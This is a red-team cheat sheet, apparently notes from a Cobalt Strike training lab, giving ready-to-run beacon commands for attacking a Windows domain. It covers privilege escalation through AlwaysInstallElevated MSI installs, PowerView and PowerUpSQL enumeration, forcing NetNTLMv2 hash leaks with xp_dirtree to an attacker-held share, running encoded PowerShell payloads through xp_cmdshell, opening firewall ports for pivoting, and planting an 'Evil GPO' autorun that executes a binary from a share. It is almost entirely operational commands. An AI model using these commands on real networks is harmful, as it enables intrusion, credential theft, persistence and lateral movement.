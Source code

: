 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
Get Available Shares (important for lateral movement and GPO Abuses):
  
> beacon> powershell Find-DomainShare -CheckShareAccess
  
## MSSQL
  
### Enum

Import PowerUpSQL

Execute following statements from Domain-User context (AD Authentication on MSSQL hosts):

Enum SQL Instance:

> beacon> powershell Get-SQLInstanceDomain
  
Test connection:

> beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

Retrieve additional Instance Information:
 
> beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
  
Test execution:

> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "select @@servername"
  
Proxychains for direct connection:
  
> root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DOMAIN/USER@TARGET
  
NetNTLMv2 via xp_dirtree (Inveigh on Host in target network, or smbserver on Kali with WinDivert + rportfwd):
  
> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "EXEC xp_dirtree '\\IP\pwn', 1, 1"

Query to execute beacon on the instance directly:

> SELECT * FROM OPENQUERY("[targetserver]", 'select @@servername; exec xp_cmdshell ''powershell -enc [EncodedString]''');

## Pivoting

- Right click on running beacon -> pivoting
- Create pivoting listener (example, port 4444)

add firewall rule:
  
> beacon> run netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444

## GPO Abuse
  
Check if Module is installed:
  
> beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
  
if its not, use a beacon with local admin rights and install (takes some time, wait for output):
  
> beacon> powershell Install-WindowsFeature -Name GPMC
  
### Create Evil GPO
  
> beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=sample,DC=domain"
  
Create Autorun key on target hosts:
  
> beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\public\share\pivot.exe" -Type ExpandString
